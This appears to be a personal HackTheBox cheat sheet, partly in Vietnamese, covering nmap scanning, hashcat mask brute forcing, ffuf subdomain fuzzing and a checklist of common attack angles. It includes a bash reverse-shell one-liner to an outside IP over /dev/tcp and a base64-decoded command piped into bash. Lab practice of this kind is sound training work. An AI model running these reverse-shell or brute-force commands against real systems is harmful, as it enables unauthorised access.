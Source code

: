 # HackTheBox

# nmap

nmap -A

# set hosts

window: C:\Windows\System32\drivers\etc
linux: /etc/hosts

# hash

`hashid hash.txt` để detect loại hash, xong dùng `hashcat`

brute force hash có dạng số theo sau:
`hashcat -a 3 -m 1400 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d`

# ffuf

```
ffuf -c -ic -w /usr/share/wordlists/dirb/big.txt -u http://devvortex.htb  -H "HOST:FUZZ.devvortex.htb" -fs 154
```

# reverse shell

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.74/1337 0>&1'
```

```
echo bHM= |base64 -d|bash
```

# Kinh nghiệm

- login page: brute force, default account (tùy công nghệ)
- input: SSTI, command injection
- check `/var/mail` lấy thông tin mail nếu có
- fuzz subdomain
- vào sqldatase

